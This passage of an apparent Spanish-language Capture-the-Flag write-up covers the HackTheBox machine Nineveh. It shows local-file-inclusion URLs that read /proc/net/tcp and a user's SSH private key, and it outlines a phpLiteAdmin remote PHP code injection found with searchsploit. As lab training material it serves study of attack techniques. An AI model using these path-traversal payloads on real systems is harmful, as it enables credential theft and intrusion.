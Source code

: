 Miramos mas contenidos interresantes

### Checkeamos los puertos internos de la maquina {-}

Siempre es buena idea mirrar los puertos internos que estan abiertos. Desde fuera, connocemos los puertos 80 y 443.

1. Approvechamos del LFI para ver el fichero proc tcp

    ```bash
    10.10.10.43/department/manage.php?notes=files/ninevehNotes/../proc/tcp
    ```

1. copiamos esto en un fichero llamado data
1. recuperamos la columna que contiene los puertos

    ```bash
    cat data
    cat data | awk '{print $2}'
    cat data | awk '{print $2}' | grep -v "address"
    cat data | awk '{print $2}' | grep -v "address" | awk '{print $2}' FS=":"
    cat data | awk '{print $2}' | grep -v "address" | awk '{print $2}' FS=":" | sort -u
    ```

Aqui vemos 3 puertos en formato hexadecimal. Lo miramos con python

```python
python3

>>> 0x0016
22
>>> 0x0050
80
>>> 0x01BB
443
```

Ya sabemos ahora que hay el puerto 22 (ssh) que esta abierto internamente.


### Checkeamos las informaciones del usuario amrois {-}

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../home/amrois/.ssh/id_rsa
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../home/amrois/user.txt
```

No vemos nada. Vamos a ver lo que podemos hacer con la base de datos del puerto 443

### Analyzando la base de datos {-}

```bash
searchsploit phpliteadmin 1.9
```

Aqui vemos un exploit tipo Multiple Vulnerabilities y una Remote PHP Code Injection. Miramos el del RPCI

```bash
searchsploit -x 24044
```

Aqui vemos que si creamos una base de datos, el nombre que entramos sera seguido de la extension apropriada. Un atacante puede
crear una base de datos con una extension php y insertar PHP code para posteriorment ejecutarlo.
